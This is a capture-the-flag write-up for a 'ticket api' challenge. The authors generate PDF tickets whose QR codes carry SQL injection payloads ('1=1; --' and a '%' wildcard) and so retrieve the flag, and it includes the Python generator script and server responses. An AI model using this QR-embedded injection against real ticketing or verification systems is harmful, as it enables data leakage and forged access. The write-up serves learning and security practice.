 We were given a source folder for the application "ticket api", where we are supposed to upload tickets using a pdf, and verify it to get the details of the ticket. The goal here is to find the ticket with the flag. By inspecting the README.md from the source, we get good details on how to upload and verify the tickets:
```
# Ticket API

This API allows to upload, and then verify ticket for events (in example CTF challenge 🚩)

## Endpoints

### Upload

Upload allows you to upload new tickets to the system. These tickets can be then verified on the event entrance:

> curl -X POST -F "file=@/path/to/ticket/file.pdf" https://ticket-api-061f5e195e3d.1753ctf.com/upload

### Verify

While integrating your entrance gate thingy call this endpoint to verify if the ticket being shown to you is not forged:

> curl -X POST -F "file=@/path/to/ticket/file.pdf" https://ticket-api-061f5e195e3d.1753ctf.com/verify

## Security

Yes.
```

We also inspected the source code, and it was quite strict in what type of tickets it takes in. For the first part, it expects a QR code with a UUID, or else it will return an error.

We first tried to use a generator for the captcha and put it in a .pdf file to see how the application worked. We could upload the file and retrieve back information about the details and such (like ID, code and hash). We decided to make a python script that generates captcha that gets put on a .pdf with a specific payload.

```
from fpdf import FPDF
import qrcode

# Generate QR code with SQL injection payload
payload = "1753c{%}"
qr = qrcode.QRCode(
    version=1,
    error_correction=qrcode.constants.ERROR_CORRECT_L,
    box_size=10,
    border=4,
)
qr.add_data(payload)
qr.make(fit=True)

# Create an image from the QR Code
qr_img = qr.make_image(fill_color="black", back_color="white")
qr_img_path = "injected_qr.png"
qr_img.save(qr_img_path)

# Embed the QR code image into a PDF
class PDF(FPDF):
    def header(self):
        self.set_font('Arial', 'B', 12)

pdf = PDF()
pdf.add_page()
pdf.image(qr_img_path, x=10, y=8, w=100)
pdf_file_path = "ticket_with_injection.pdf"
pdf.output(pdf_file_path)

pdf_file_path
```

We tried to put payloads such as "1753c{", "1=1; --" etc. We noticed that this payload gets put on the "code" part of verify after we uploaded it. 
```
{"id":78,"code":"1=1;--","hash":"1369cd0fe2fc0dfccfbc3a14b90f776dfa77bbab"}
```
At some point I was curious what would happen if we put wildcard such as % in the flag, which happened to be the answer:
```
{"id":1,"code":"1753c{dizz_are_not_forged_if_they_have_the_same_hasshhh}","hash":"admin-needs-no-hash"}
```